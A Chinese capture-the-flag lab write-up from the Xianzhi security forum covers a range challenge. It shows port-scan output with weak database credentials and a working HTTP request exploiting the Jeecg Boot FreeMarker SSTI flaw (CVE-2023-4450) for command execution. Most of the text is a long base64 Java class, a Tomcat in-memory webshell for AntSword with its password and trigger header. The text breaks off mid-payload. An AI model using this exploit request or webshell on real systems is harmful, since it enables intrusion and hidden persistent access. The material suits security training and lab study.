# 无限安全靶场-月挑战靶场1-先知社区

> **来源**: https://xz.aliyun.com/news/16421  
> **文章ID**: 16421

---

# 考察点

主机信息收集、Java代码审计、Java内存马注入、恶劣环境下的权限获取(不出网)、容器化信息收集、容器逃逸、蜜罐对抗、Webshell杀软对抗、多级代理域渗透等技术。

# 描述

"运维人员好懒，不想做前端，打算整一下刚来的几个实习生，于是发布任务：赶紧去做报表啊一群臭实习生"

# 拓扑图



# 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 10.10.0.3
start
start infoscan
10.10.0.3:22 open
10.10.0.3:18088 open
10.10.0.3:6379 open
10.10.0.3:3306 open
10.10.0.3:18080 open
3.0356503s
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://10.10.0.3:18088    code:404 len:682    title:HTTP Status 404 – Not Found
[*] WebTitle http://10.10.0.3:18080    code:200 len:1120   title:DocToolkit
[+] mysql 10.10.0.3:3306:root root
[+] Redis 10.10.0.3:6379 unauthorized file:/data/dump.rdb
已完成 4/5 [-] ssh 10.10.0.3:22 ubunt ubunt#123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 4/5 [-] ssh 10.10.0.3:22 ubunt ubunt_123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 5/5
[*] 扫描结束,耗时: 1m16.8468932s
```

发现存在两个Web服务  
优先去看Shiro，发现到爆破不出Key  
就去看404，通过目录扫描可以扫到jeecg的路径  
<http://10.10.0.3:18088/jeecg-boot/>  
发现存在mysql的服务为弱口令，在里面找到jeecg的信息  
发现是积木报表，找jeecg的nday来打

# 打点

## Jeecg Boot

CVE-2023-4450：Jeecg Boot jmreport/loadTableData接口存在FreeMarker SSTI注入漏洞

```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 10.10.0.3:18088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/json
Content-Length: 100

{"sql":"select '<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"whoami  \") }' "}
```

  
发现成功RCE  
使用[pen4uin/java-memshell-generator: 一款支持自定义的 Java 内存马生成工具｜A customizable Java in-memory webshell generation tool. (github.com)](https://github.com/pen4uin/java-memshell-generator)生成payload。

```
[>] AntSword Tomcat Listener BASE64

[+] 基础信息:

密码: Cslbewkahmg
请求路径: /*
请求头: Referer: Hftaa
脚本类型: JSP

[+] 结果输出:

yv66vgAAADEBewEAJW9yZy9zcHJpbmdmcmFtZXdvcmsvc3ovU2lnbmF0dXJlVXRpbHMHAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQAMZ2V0Q2xhc3NOYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAARDb2RlAQAsb3JnLmFwYWNoZS5sb2dnaW5nLlNlcnZsZXRSZXF1ZXN0TGN5TGlzdGVuZXIIAAgBAA9nZXRCYXNlNjRTdHJpbmcBAApFeGNlcHRpb25zAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADAEAEGphdmEvbGFuZy9TdHJpbmcHAA4BCoxINHNJQUFBQUFBQUFBSlZYK1hjVDF4WCtualh5eVBJUWdvZ05ncGF5aFVpeWJBVUN4TWlCWUJ1N2RpSUpnZ21wY2JxTXBiRWtrQ1ZuWm1Rd2FadDAzMHYzbHE3cGtycEwya0lLTW9SQ1NKdkNhVTdQYWZORC80bitBejM5b1UyL055UGJrbGQ2amozTGUvZCs3Nzd2ZnZlKzBWdi9mZTBXZ04yNEt4QXRtZG1ZUHFHbmMwYXNVTXBtODhWc2JNZ3dKd3VHZmR4NHJteFlkaUk5bGNoYnRsRTBUQlZDNFA3VCtxUWVLK2cwUERwNjJramJLandDTytYb3Vaamx1aTZFbVBQM0NqUStsaS9tN1VNQ25sRDRwSURTVzhvWUFtc1QrYUtSS28rUEd1WUpmYlRBa1VDaWxOWUxKM1V6TDkrcmc0cWR5MXNDSFluL0ord3VEU3A4ZmlpNGorR2I3dndSL3B1bEtTTWpzQ3VVV0NuNnZrbWphSGZKV05kYml5Y0VkdHlETjdkVFhYZVFtOC9yaGZ4NXVmTDZlUzc3enFXTkNUdGZLcXBvNFQ0enVxMExOSXowQ0RTbkM3cGxKVXA2eGpBRmdzNXFzU0lYZXZwNG9uZCtpbXMwamh0MnJrVGNUWWw1WU5NWUt6QkxzYVF6UnlzdjhjNmZGMWhYWStUZ2NNNlRMbGlTK3ZtWklkc2t1Wnp5bVlZMVVTcGF6TUpDdm5LMlBSRWI0R1Z1NjY0bHZkVHF0Z1VlV3RYSk1hVFB0bFg1VlBHZ3dJUDNoS2ZpSVdiNDN1SlZFYTdUdDd0M0ZXMENhNFpzUFgwbXFVOVVoYmd1YTlqMUN3bHNEWVZYbEFKMTJJR1lIN3Z3c0VCcmRuN2Rmck0wUG9meTFPcnN1bWdMRjFzMkN4cjI0QkUvR3JCWHdKOHpwRmhTK3JpaFlUKzJObkg0VVlFbVJqTmd1QXFybGtOZCtzT0xoelFjUUx3WklUQmp6UzdxU2IxUUp1eEJGNVlsN2t1WGlyYWVMMUpUbTJ0UmUzTzZPU1MzVVV3YlhlRlRHZzZqMjQ4b3FIWmxna3JVY01URjZCUFFHTm94M1dUQXRtRnFlSys3NkFBblJuWEwyTC8zaUpGMk9ranJVbUdQOUdoNEFrL0t6U2NFTml4VE9pcFNoS3VkVkhHc1Rna25jaVozcU9JNGxaQXVteVkxNkE0SlBCQ3FKY2NkSlRrbjhMUWZRMkRYYU9FR2VzbURjYzd1cmF2a09zZmFTdGJ3UGd4TDcxTUM0ZEJJWGNWM0xlTVRQaW03M0xOK0hNWDd1ZWFTUmlvK3lGeGxqREgyV21mWUJ6YVp0UXRzVmFSVmJLVEU1OGNIR1gxVytvOHhRU2VHai9WcHlHRkxFN0xJdTZYQUpCUjAwOGdrcXczbzhCTEpHRm5VYjhMTHR5a05aMUR3STROeGdZM0xXYWtvTVIrV1lYZW4wNFpsNWQwakluUktjdkVjVEQ4bVlNbUJRWmVjc3A4QlQ3Sk41b3VUcFRNMFBWQWJwWHVZMVVWWkhRb3ZIdEp3RGxNU24zMjB1V2ljSFN4YXRrNHhMNVREblBtSDhSRzVtNDl5ZGVwZWwxMjJaWW5WWlMyOGlJL0pzK3JqUkI0cmxLMWNUM2xzVENyL2svQTFJNEpQc1lqbkRndG1jQWM3T2pQUVQ2VjFMb0c0Y2kzUHhmYzVmRjRXeVJkODJDYXdaZDRnVlJvcXAzUDllYU9RcVRtaHZreFdKM1Z6SDN0ZVltWGJMdGZ5NGZwRHBicXNPN2ZidmUyWk85dnFNdTNBVlMwZm1TM2h4UllxdnNOMkl5dE5Lb3NuNitMaTRpNi9pKzlKYXIvUDJxNFJyUU1nMEw1SzM2dVBTTU1QOFNPWjBwY29RWGtZbENjTTB6bXBOZnhFTHBQQlR4ZmtlQmJURWVQTGZsekF6LzI0S0NYcUljQ0N4cnVTOW42SlgwbkhYL040elRqZGo5MmtwY2F3bG4wUFAzUFlISzF5c1dNOGI2VTdlcnFIK21hYnB1bkRKV0tNbFp6emdDZnFLZ3pNMHZncWZpLzNkNFZOMDEzZmxhZ1BGZmNrY2F0VHd6VzNoSzlYVzJsSDJjNFhPbnFjcnUzRERlcllUWUlieVUyV2hvdm13K3ZVZnE5VkdEWE9udEZ6NDFrZjNtQ1l4dzJ1SVMzL1JNVVBqTm02N3NPZnNZMnFWVUJmZUhqbHNjRXZXeUZQTnVkKzBMazM4b2xmZ0x3MjhhMmJIb0wzRFpFWnJJMEUvbmdWL1pIQW0xZlJHUW5jdVlySEwzT3FBZjZxRzZDaDJiazZMcnl2Y1lEdng3b3EzRDdIbm1NTEhRT09ZNnM3V1hXVVR3R3M1NVdkWWhaQ3ZNbllKTlRiYlJYc3ZvMVFNaEtkd2I1VU5ISUZuZGZ4V0FQdTRNcjhDeDhlcjZEM0lsNlNZLzNYTWRpQXVCSlU3dUJDSktoVWtJeDdiK0Rvc09jbW5ycUdaeW9ZbWNFSDRvMkJEd1ZHRzI4aU0rd0pHRVBEeXFzNFBUVHNsZGNLaW5FMXFOTFJEcXJCUnRvb3c1Nmdselkza0IzMnpPQXNEZVZqMEh0THZsVHcvRzFrNHI2Z3I0SVh2STUxbE1idG5QakVNKzNYOFdtQmFYamozbWtvcWN2Yy9HSGN4VnVrd1llLzRtKzhleHlLK3JsNW9JV2pHM0FmTmlLR0lMcXdpZGJ2d2dEZWpSRnN3UlRlZ3hlWXdGZVk1RGV3blRnN2liU0RPR0VpaGZCM2RrTko4Yk1rYjRDV0c0ampwV2VCV0p1WWhDbWtzSmw0S2hFMkUzTUxWK3ZDVjRtNlZmNFd3QzNpYm1jOEpINHVQVzlYMCtQRFg3alNUc2JmenRFZFVON2gwbDRWRFNwMnFRaXBpS2o4WGhFcVd2OE4wY09iekQwL3MzajlEQjJrSWx1ZG5BNXd4TXQ3VkNUYkFwKzloaThHdnNUTGJVU1Mwd2ltMm1yZWZIRmxHaDcrUlMvUnA0RUVQVUNNRm9hN1hjSnpzMnpTSEplby8yRFlFclZUSkNNVi9DRFZIbEJlUm1zNzlmTmpJcTJKSyswVi9DdzEvYzQvbzNlaDNjQ0Y0YllaVEw4ZVpaSi9FYVhESzVjWTN4cHV0SlZOeUUzSUhsSWdmeFBLWGFqWXk5bjluSCtVRnAyazlRRHBpNU8yZzZUa0VDazVUS3R1aC95OWpFUFMvaFVTcThpSThEVjgzYUd5RTkrZ0IzL0VFT21iK0Jidkt2Ry96VFI0SEZMWFFma1BWQlVYVldSU0tpNDBhVFhVQ2ZuWlZ0M3N2NWhMdVZrcmNQa2FyaWFqZ1JuRkZYS1VtbnN0U2hrcWpnemJYRzBhN3QrbFpPQVBOQ2MxdDFnS0dWb0szc25BODdKWVNGcmdkaTFNVUZrU3hLbmtkbjYzendwWENndjhDbTFrWmpzd1NPRSt3UmJ3Sko4U0RoK0hPTk5JY1VxNU5YRG1rUFBrNFh3RXZ5RXpDajJPa0szZk9uM0JtaE9laGQ4NWJMVzcvYU1vSlRWUEIvNEg5TXNMOExRUEFBQT0IABABAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABIAEwoADwAUAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAFwEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEACGxpc3RlbmVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQAHY29udGV4dAEACGNvbnRleHRzAQAQTGphdmEvdXRpbC9MaXN0OwEABHRoaXMBACdMb3JnL3NwcmluZ2ZyYW1ld29yay9zei9TaWduYXR1cmVVdGlsczsBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQAkTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAOamF2YS91dGlsL0xpc3QHACQBABJqYXZhL3V0aWwvSXRlcmF0b3IHACYBAA1TdGFja01hcFRhYmxlDAASABYKAAQAKQEACmdldENvbnRleHQBABIoKUxqYXZhL3V0aWwvTGlzdDsMACsALAoAAgAtAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DAAvADALACUAMQEAB2hhc05leHQBAAMoKVoMADMANAsAJwA1AQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAA3ADgLACcAOQEAC2dldExpc3RlbmVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMADsAPAoAAgA9AQALYWRkTGlzdGVuZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMAD8AQAoAAgBBAQAEa2V5MQEACGNoaWxkcmVuAQATTGphdmEvdXRpbC9IYXNoTWFwOwEAA2tleQEAC2NoaWxkcmVuTWFwAQAGdGhyZWFkAQASTGphdmEvbGFuZy9UaHJlYWQ7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEAB3RocmVhZHMBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwBNAQAQamF2YS9sYW5nL1RocmVhZAcATwEAEWphdmEvdXRpbC9IYXNoTWFwBwBRAQATamF2YS91dGlsL0FycmF5TGlzdAcAUwoAVAApAQAKZ2V0VGhyZWFkcwgAVgEADGludm9rZU1ldGhvZAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9PYmplY3Q7DABYAFkKAAIAWgEAB2dldE5hbWUMAFwABgoAUABdAQAcQ29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3NvcggAXwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaDABhAGIKAA8AYwEABnRhcmdldAgAZQEABWdldEZWDABnAFkKAAIAaAEABnRoaXMkMAgAaggARAEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DABtAG4KAFIAbwEADWphdmEvdXRpbC9TZXQHAHELAHIAMQEAA2dldAwAdAA8CgBSAHUBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsMAHcAeAoABAB5AQAPamF2YS9sYW5nL0NsYXNzBwB7CgB8AF0BAA9TdGFuZGFyZENvbnRleHQIAH4BAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAIAAgQsAJQCCAQAVVG9tY2F0RW1iZWRkZWRDb250ZXh0CACEAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAhgCHCgBQAIgBAAh0b1N0cmluZwwAigAGCgB8AIsBABlQYXJhbGxlbFdlYmFwcENsYXNzTG9hZGVyCACNAQAfVG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcggAjwEACXJlc291cmNlcwgAkQgAHQEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uBwCUAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWDAASAJYKAJUAlwEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwCZAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcAmwEAK2phdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25UYXJnZXRFeGNlcHRpb24HAJ0BAAlTaWduYXR1cmUBACYoKUxqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwEAE2phdmEvbGFuZy9UaHJvd2FibGUHAKEBAAljbGF6ekJ5dGUBAAJbQgEAC2RlZmluZUNsYXNzAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAVjbGF6egEAEUxqYXZhL2xhbmcvQ2xhc3M7AQALY2xhc3NMb2FkZXIBABdMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAqwEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwwArQCuCgBQAK8BAA5nZXRDbGFzc0xvYWRlcgwAsQCHCgB8ALIMAAUABgoAAgC0AQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwAtgC3CgCsALgBAAtuZXdJbnN0YW5jZQwAugA4CgB8ALsMAAoABgoAAgC9AQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAvwDACgACAMEBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwAwwDECgACAMUIAKUHAKQBABFqYXZhL2xhbmcvSW50ZWdlcgcAyQEABFRZUEUMAMsAqAkAygDMAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DADOAM8KAHwA0AEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAcA0gEADXNldEFjY2Vzc2libGUBAAQoWilWDADUANUKANMA1gEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7DADYANkKAMoA2gEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwA3ADdCgDTAN4BAAdvYmplY3RzAQATW0xqYXZhL2xhbmcvT2JqZWN0OwEACWxpc3RlbmVycwEACWFycmF5TGlzdAEAFUxqYXZhL3V0aWwvQXJyYXlMaXN0OwEACmlzSW5qZWN0ZWQBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KVoMAOUA5goAAgDnAQAbYWRkQXBwbGljYXRpb25FdmVudExpc3RlbmVyCADpAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABYAOsKAAIA7AEAHGdldEFwcGxpY2F0aW9uRXZlbnRMaXN0ZW5lcnMIAO4HAOEBABBqYXZhL3V0aWwvQXJyYXlzBwDxAQAGYXNMaXN0AQAlKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvdXRpbC9MaXN0OwwA8wD0CgDyAPUBABkoTGphdmEvdXRpbC9Db2xsZWN0aW9uOylWDAASAPcKAFQA+AoAVACCAQAcc2V0QXBwbGljYXRpb25FdmVudExpc3RlbmVycwgA+wEAB3RvQXJyYXkBABUoKVtMamF2YS9sYW5nL09iamVjdDsMAP0A/goAVAD/AQABaQEAAUkBAA1ldmlsQ2xhc3NOYW1lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAEc2l6ZQEAAygpSQwBBQEGCgBUAQcBABUoSSlMamF2YS9sYW5nL09iamVjdDsMAHQBCQoAVAEKAQAMZGVjb2RlckNsYXNzAQAHZGVjb2RlcgEAB2lnbm9yZWQBAAliYXNlNjRTdHIBABRMamF2YS9sYW5nL0NsYXNzPCo+OwEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAREBAAdmb3JOYW1lDAETALcKAHwBFAEADGRlY29kZUJ1ZmZlcggBFgEACWdldE1ldGhvZAwBGADPCgB8ARkBABBqYXZhLnV0aWwuQmFzZTY0CAEbAQAKZ2V0RGVjb2RlcggBHQEABmRlY29kZQgBHwEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwEhAQAOY29tcHJlc3NlZERhdGEBAANvdXQBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQACaW4BAB5MamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbTsBAAZ1bmd6aXABAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07AQAGYnVmZmVyAQABbgEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwEsAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBLgEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwEwCgEtACkBAAUoW0IpVgwAEgEzCgEvATQBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMABIBNgoBMQE3AQAEcmVhZAEABShbQilJDAE5AToKATEBOwEABXdyaXRlAQAHKFtCSUkpVgwBPQE+CgEtAT8BAAt0b0J5dGVBcnJheQEABCgpW0IMAUEBQgoBLQFDAQADb2JqAQAJZmllbGROYW1lAQAFZmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBSQFKCgACAUsBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBTQoBTgDWCgFOAHUBAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24HAVEBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAVQBVQoAfAFWAQANZ2V0U3VwZXJjbGFzcwwBWAB4CgB8AVkKAVIAFAEADHRhcmdldE9iamVjdAEACm1ldGhvZE5hbWUBAAdtZXRob2RzAQAbW0xqYXZhL2xhbmcvcmVmbGVj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